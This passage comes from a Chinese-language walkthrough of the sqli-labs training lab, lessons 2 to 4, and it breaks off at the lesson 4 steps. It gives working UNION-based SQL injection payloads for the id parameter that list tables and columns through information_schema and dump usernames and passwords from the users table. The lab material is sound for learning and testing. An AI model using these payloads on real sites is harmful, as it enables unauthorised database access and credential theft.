 `?id=0 union select 1,2,group_concat(table_name) from information_schema.columns where table_schema='security' --+`

[![0jQemT.jpg](https://s1.ax1x.com/2020/10/18/0jQemT.jpg)](https://imgchr.com/i/0jQemT)

通过其内容可以猜到我们想要的内容应该在users表中，所以接下来就是对users表进行爆字段


4.`?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`

[![0jQE60.jpg](https://s1.ax1x.com/2020/10/18/0jQE60.jpg)](https://imgchr.com/i/0jQE60)


可以看到其中有username与password两项，我们随即对其进行输出操作

5.由于我们当前就处于security库中，所以不必再从information_schema库中查找数据，直接

`?id=0 union select 1,2,group_concat('|',username,'~',password) from users--+`

从users表中输出数据

[![0jQkpn.jpg](https://s1.ax1x.com/2020/10/18/0jQkpn.jpg)](https://imgchr.com/i/0jQkpn)

***
# less 3(get基于报错的单引号变形字符注入)
## 原理

依旧是闭合问题，没有过滤，只不过形式变成了('')这样的闭合形式

[![0jldbT.jpg](https://s1.ax1x.com/2020/10/18/0jldbT.jpg)](https://imgchr.com/i/0jldbT)

## 步骤

1.对页面id传参单引号，发现以下报错页面


[![0jlarV.jpg](https://s1.ax1x.com/2020/10/18/0jlarV.jpg)](https://imgchr.com/i/0jlarV)

其中发现语法错误附近有')，一个单引号和一个括号，得知闭合方式不只是单引号这样，而是多加了一个括号变成了另外一种形式，所以在注入过程中单引号后加一个括号就可以达成目的

其余步骤和上一题是一样的，最终得到用户密码对照


[![0jlBaF.jpg](https://s1.ax1x.com/2020/10/18/0jlBaF.jpg)](https://imgchr.com/i/0jlBaF)
***
# less 4(get基于报错的双引号字符型注入)
***
## 原理

>id是被引号包括的 但如果包括的是单引号比如 '$id'，那么我们添加单引号会导致引号未闭合，报错，那如果是’$id"'这种，虽然双引号没有闭合，但是他在闭合的单引号里，所以这里他的作用只是一个引号，而不是闭合作用，这就解释了 为何添加其他字符达不到闭合的目的。

## 步骤

